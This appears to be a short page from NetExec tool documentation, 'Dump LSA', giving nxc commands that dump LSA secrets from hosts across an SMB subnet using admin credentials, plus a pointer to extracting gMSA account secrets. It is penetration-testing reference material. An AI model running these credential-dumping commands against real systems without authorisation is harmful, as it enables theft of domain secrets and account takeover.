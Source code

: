 # Dump LSA

### Dump LSA secrets using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa
```

If this command fail you can also try the old method (similar to secretdump)

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa secdump
```

If you found an account starting with _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} you can get the account behind:

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}

